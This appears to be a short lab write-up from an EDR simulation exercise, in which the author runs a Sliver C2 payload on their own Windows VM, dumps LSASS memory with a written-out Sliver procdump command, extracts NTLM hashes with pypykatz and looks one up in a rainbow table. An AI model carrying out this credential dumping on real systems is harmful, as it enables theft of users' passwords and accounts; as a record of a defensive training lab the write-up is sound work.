 # EDR Simulation Extra
## Cracking the Windows password obtained from an LSASS memory dump
Per the main write-up, I executed a C2 payload on the Windows machine via command prompt with Administrative privileges. This granted me high-level access from the Ubuntu attack server running Sliver. 

I was then able to dump the memory contents of LSASS, a process containing sensitive information such as user credentials:
```console
[server] sliver (C2_PAYLOAD_NAME) > procdump -n lsass.exe -s lsass.dmp
```
The dump file was saved as **lsass.dmp** on my attack machine. I then transferred this dump file to a separate Windows host machine for further processing.

For processing the file, I used **pypykatz**, a Python implementation of the post-exploitation tool called Mimikatz. Running pypykatz revealed the names of the users along with their NTLM password hashes.

Rather than brute-forcing, I looked up the hash on a rainbow table, revealing the decrypted password that I had set for the Windows VM:
  ![hash-cracked](https://github.com/user-attachments/assets/a209f991-d7eb-449e-b3d8-9776ef5d225e)
